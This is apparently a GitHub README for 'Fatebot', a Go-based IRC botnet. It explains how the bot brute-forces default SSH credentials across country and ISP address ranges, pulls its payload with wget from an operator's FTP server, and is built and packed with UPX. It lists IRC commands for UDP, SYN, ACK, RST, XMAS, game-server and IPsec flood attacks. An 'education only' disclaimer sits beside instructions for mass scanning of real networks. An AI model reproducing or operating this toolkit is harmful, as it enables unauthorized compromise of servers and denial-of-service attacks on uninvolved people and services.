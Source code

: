 # Fatebot
This is my first <strong>IRC botnet</strong> for launch Denial of Service attack. Scan target are anything that run linux, open default SSH port, use default username and password. This bot are write in "Go" language. <strong>For education purpose only. Please test it in your lab, i create this for join university in the future not for attack anyone server with out any permission!!!</strong>

<br>Bozer\Bulldozer (old name is R4bin) the author of Fatebot, feel free to do anything with it. read more detail in license.</br>
<br><ins>If you have an issue please understand that some of them i can't answer because it will make me have a trouble with The cyber law.</ins></br>

<img src="assets/FateBot.png" alt="Fatebot" width="400" height="400">

# Infect
The infect function of this bot is scan by default SSH port. Option about scan feature in this bot is scan on USA, CN, KR network or you can do a random scan or even you can add you own mods like russia or india isp mods, all of these it's up to you. This bot will brute-force attack to the target and use <strong>"wget"</strong> for download the payload from FTP server, so... please prepair your FTP server first it's very important for the infect process. <strong>(You can use any option any server type that can host the payload not maintionly to be an FTP server.)</strong>

# Add more network

(1) Create slice of your network.

	Example:
	
		var UK_netList = []string{
			"123.123", // 123.123.0.0/16
			"234.234", // 234.234.0.0/16
		}
	
	# After v0.6.0 will be use only 16bit of the ip range(I'm still confused about subnet mask lol).

(2) Then go down to the "ScanMode" function and add the case of your network and custom the command.
	
	Example:
		
		case modes == "-uk": //custom your command.
			b.Scanner(UK_netList, false) //just config the first argument to your network.
		
<strong>I use shodan to do a static and analysis of scanning like how many of SSH port are open on which isp/org, what is the most used OS, version and etc.</strong>

# DDoS
Attack feature will play around with <strong>Volumetric</strong> mostly but also have an <strong>Application</strong> too.
All of the attack vectors will be <strong>random source port automatically.</strong>


<img src="assets/synflood.png" alt="synflood, dos example">

# Build payload

	chmod +x build.sh
	./build.sh <payload>
	
	#Tip: You can download upx packer to make your payload have a smaller size. It's not help much but it's really useful.
	
	Redhat:
		yum install upx -y && upx -9 bin/<payload>
		
	Debian:
		apt install upx -y && upx -9 bin/<payload>
		
# Requirements
<ul>
	<li>IRC Server</li>
</ul>

<ul><li>IRC Backup Server <strong>(Optional)</strong></li></ul>

<ul>
	<li>IRC Client</li>
</ul>

<ul>
	<li>Payload Hosting Server</li>
</ul>

<ul>
	<li>Go Compiler</li>
</ul>

<ul>
	<li>UPX Packer <strong>(Optional)</strong></li>
</ul>

<ul>
	<li>Code\Text Editor</li>
</ul>

# IRC Commands
	
	DDoS Vectors:
	
		?udp 	 <srcIP> <dstIP> <port> <size>			Just a normal UDP Flood attack.
		?syn 	 <srcIP> <dstIP> <port> <size>			Just a normal SYN Flood attack.	
		?ack 	 <srcIP> <dstIP> <port> <size>			Just a normal ACK Flood attack.
		?fin	 <srcIP> <dstIP> <port> <size>			Flood TCP FIN packets to request close connection when target server are blocking a syn packet.
		?rst 	 <srcIP> <dstIP> <port> <size>			Flood TCP RST packets to broke a TCP connection between client and target server.
		?sap     <srcIP> <dstIP> <port> <size>			Flood by using TCP SYN+ACK Flags to the target server.
		?xmas    <srcIP> <dstIP> <port> <size>			Flood TCP packets by using all of TCP Flags to target server.
		?vse 	 <srcIP> <dstIP>				Flood TSource Engine Query request to the target game server that used valve source engine.
		?fms 	 <srcIP> <dstIP>				Flood query payload to a FiveM game server(They use to host GTAV i guess. i'm only playing "Hell let loose" for now, lol).
		?ipsec 	 <srcIP> <dstIP>				Flood payload to to overwhelm system resources of VPN service and make IPSec VPN connections being affected.
	
	?scan 	 <modes> <ftp>				Scan SSH port on the network, Brute-Force attack to the target and load the payload by "wget".
	
	Scanner modes:
	
		-cn		Scan on china network.
		-usa		Scan on united state of america network.
		-kr		Scan on south korea network.
		-r		Scan with random ip.	
		
	?info				Get bot system information, for bot analysis.
	?kill				Bot self-close.
	?stopddos 			Stop ddos attacking.
	?stopscan			Stop scanning.
